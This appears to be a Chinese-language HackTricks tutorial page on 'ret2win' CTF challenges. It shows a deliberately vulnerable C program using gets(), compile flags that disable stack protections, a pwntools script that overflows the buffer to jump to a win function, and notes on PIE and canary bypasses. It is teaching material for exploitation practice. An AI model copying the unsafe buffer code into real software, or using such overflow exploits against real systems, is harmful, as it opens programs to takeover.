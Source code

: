 # Ret2win

{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

## 基本信息

**Ret2win** 挑战是 **Capture The Flag (CTF)** 竞赛中的一个热门类别，特别是在涉及 **二进制利用** 的任务中。目标是利用给定二进制文件中的漏洞，执行一个特定的、未被调用的函数，该函数通常被命名为 `win`、`flag` 等。当该函数被执行时，通常会打印出一个标志或成功消息。挑战通常涉及覆盖栈上的 **返回地址**，以将执行流转向所需的函数。以下是更详细的解释和示例：

### C 示例

考虑一个简单的 C 程序，其中存在一个漏洞和一个我们打算调用的 `win` 函数：
```c
#include <stdio.h>
#include <string.h>

void win() {
printf("Congratulations! You've called the win function.\n");
}

void vulnerable_function() {
char buf[64];
gets(buf); // This function is dangerous because it does not check the size of the input, leading to buffer overflow.
}

int main() {
vulnerable_function();
return 0;
}
```
要在没有栈保护和禁用**ASLR**的情况下编译此程序，可以使用以下命令：
```sh
gcc -m32 -fno-stack-protector -z execstack -no-pie -o vulnerable vulnerable.c
```
* `-m32`: 将程序编译为32位二进制文件（这不是必需的，但在CTF挑战中很常见）。
* `-fno-stack-protector`: 禁用对栈溢出的保护。
* `-z execstack`: 允许在栈上执行代码。
* `-no-pie`: 禁用位置无关可执行文件，以确保`win`函数的地址不变。
* `-o vulnerable`: 将输出文件命名为`vulnerable`。

### 使用Pwntools的Python利用

对于利用，我们将使用**pwntools**，这是一个强大的CTF框架，用于编写利用脚本。利用脚本将创建一个有效负载，以溢出缓冲区并用`win`函数的地址覆盖返回地址。
```python
from pwn import *

# Set up the process and context for the binary
binary_path = './vulnerable'
p = process(binary_path)
context.binary = binary_path

# Find the address of the win function
win_addr = p32(0x08048456)  # Replace 0x08048456 with the actual address of the win function in your binary

# Create the payload
# The buffer size is 64 bytes, and the saved EBP is 4 bytes. Hence, we need 68 bytes before we overwrite the return address.
payload = b'A' * 68 + win_addr

# Send the payload
p.sendline(payload)
p.interactive()
```
要找到 `win` 函数的地址，您可以使用 **gdb**、**objdump** 或任何其他允许您检查二进制文件的工具。例如，使用 `objdump`，您可以使用：
```sh
objdump -d vulnerable | grep win
```
该命令将显示 `win` 函数的汇编代码，包括其起始地址。&#x20;

Python 脚本发送一条精心制作的消息，当 `vulnerable_function` 处理时，会溢出缓冲区并用 `win` 的地址覆盖栈上的返回地址。当 `vulnerable_function` 返回时，它不会返回到 `main` 或退出，而是跳转到 `win`，并打印消息。

## 保护措施

* [**PIE**](../../common-binary-protections-and-bypasses/pie/) **应禁用**，以确保地址在执行之间是可靠的，否则函数存储的地址可能并不总是相同，您需要一些泄漏来确定 `win` 函数加载的位置。在某些情况下，当导致溢出的函数是 `read` 或类似函数时，您可以进行 **部分覆盖** 1 或 2 字节，以将返回地址更改为 `win` 函数。由于 ASLR 的工作方式，最后三个十六进制半字节不会随机化，因此有 **1/16 的机会**（1 个半字节）获得正确的返回地址。
* [**栈金丝雀**](../../common-binary-protections-and-bypasses/stack-canaries/) 也应禁用，否则被破坏的 EIP 返回地址将永远不会被跟随。

## 其他示例与参考

* [https://ir0nstone.gitbook.io/notes/types/stack/ret2win](https://ir0nstone.gitbook.io/notes/types/stack/ret2win)
* [https://guyinatuxedo.github.io/04-bof\_variable/tamu19\_pwn1/index.html](https://guyinatuxedo.github.io/04-bof\_variable/tamu19\_pwn1/index.html)
* 32位，无 ASLR
* [https://guyinatuxedo.github.io/05-bof\_callfunction/csaw16\_warmup/index.html](https://guyinatuxedo.github.io/05-bof\_callfunction/csaw16\_warmup/index.html)
* 64 位，带 ASLR，带有 bin 地址的泄漏
* [https://guyinatuxedo.github.io/05-bof\_callfunction/csaw18\_getit/index.html](https://guyinatuxedo.github.io/05-bof\_callfunction/csaw18\_getit/index.html)
* 64 位，无 ASLR
* [https://guyinatuxedo.github.io/05-bof\_callfunction/tu17\_vulnchat/index.html](https://guyinatuxedo.github.io/05-bof\_callfunction/tu17\_vulnchat/index.html)
* 32 位，无 ASLR，双小溢出，第一次溢出栈并增大第二次溢出的大小
* [https://guyinatuxedo.github.io/10-fmt\_strings/backdoor17\_bbpwn/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/backdoor17\_bbpwn/index.html)
* 32 位，relro，无金丝雀，nx，无 pie，格式字符串覆盖地址 `fflush` 为 `win` 函数（ret2win）
* [https://guyinatuxedo.github.io/15-partial\_overwrite/tamu19\_pwn2/index.html](https://guyinatuxedo.github.io/15-partial\_overwrite/tamu19\_pwn2/index.html)
* 32 位，nx，其他无，部分覆盖 EIP（1 字节）以调用 `win` 函数
* [https://guyinatuxedo.github.io/15-partial\_overwrite/tuctf17\_vulnchat2/index.html](https://guyinatuxedo.github.io/15-partial\_overwrite/tuctf17\_vulnchat2/index.html)
* 32 位，nx，其他无，部分覆盖 EIP（1 字节）以调用 `win` 函数
* [https://guyinatuxedo.github.io/35-integer\_exploitation/int\_overflow\_post/index.html](https://guyinatuxedo.github.io/35-integer\_exploitation/int\_overflow\_post/index.html)
* 该程序仅验证数字的最后一个字节以检查输入的大小，因此只要最后一个字节在允许范围内，就可以添加任何大小。然后，输入创建一个缓冲区溢出，通过 ret2win 被利用。
* [https://7rocky.github.io/en/ctf/other/blackhat-ctf/fno-stack-protector/](https://7rocky.github.io/en/ctf/other/blackhat-ctf/fno-stack-protector/)
* 64 位，relro，无金丝雀，nx，pie。部分覆盖以调用 `win` 函数（ret2win）
* [https://8ksec.io/arm64-reversing-and-exploitation-part-3-a-simple-rop-chain/](https://8ksec.io/arm64-reversing-and-exploitation-part-3-a-simple-rop-chain/)
* arm64，PIE，给出一个 PIE 泄漏，`win` 函数实际上是两个函数，因此 ROP gadget 调用两个函数
* [https://8ksec.io/arm64-reversing-and-exploitation-part-9-exploiting-an-off-by-one-overflow-vulnerability/](https://8ksec.io/arm64-reversing-and-exploitation-part-9-exploiting-an-off-by-one-overflow-vulnerability/)
* ARM64，越界调用 `win` 函数

## ARM64 示例

{% content-ref url="ret2win-arm64.md" %}
[ret2win-arm64.md](ret2win-arm64.md)
{% endcontent-ref %}

{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
学习与实践 GCP 黑客技术： <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**电报群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}

